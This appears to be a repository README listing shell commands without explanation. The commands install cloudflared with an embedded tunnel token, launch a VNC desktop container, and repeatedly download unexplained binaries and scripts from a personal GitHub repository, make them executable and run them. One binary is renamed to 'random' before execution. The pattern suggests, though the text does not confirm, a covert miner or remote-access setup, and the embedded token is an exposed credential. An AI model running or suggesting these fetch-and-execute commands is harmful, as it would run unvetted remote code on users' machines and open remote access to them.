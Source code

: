 # curl -L --output cloudflared.deb https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb && 

sudo dpkg -i cloudflared.deb && 

sudo cloudflared service install eyJhIjoiYTAyNDU4ODdkZmQ4YTc3Yjk4MWM5ZjgyOGVlYjA3NTEiLCJ0IjoiN2VhMDQzNmMtMTAzNy00NjUxLWI4YzYtZmNjNGQ1MGViYjhhIiwicyI6Ik1EUTFZV001TUdRdFltTmlZeTAwTXpVMkxUa3hNbVl0TWpRMFpqRTNaRFl6WWpVMyJ9

docker run -p 6070:80 -e RESOLUTION=1200x650 dorowu/ubuntu-desktop-lxde-vnc
 # wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/gas && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x gas && ./gas script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x cok && ./cok script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && mv cok random && chmod +x random && ./random script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/vy.sh && chmod +x vy.sh && ./vy.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/dc.sh && chmod +x dc.sh && ./dc.sh
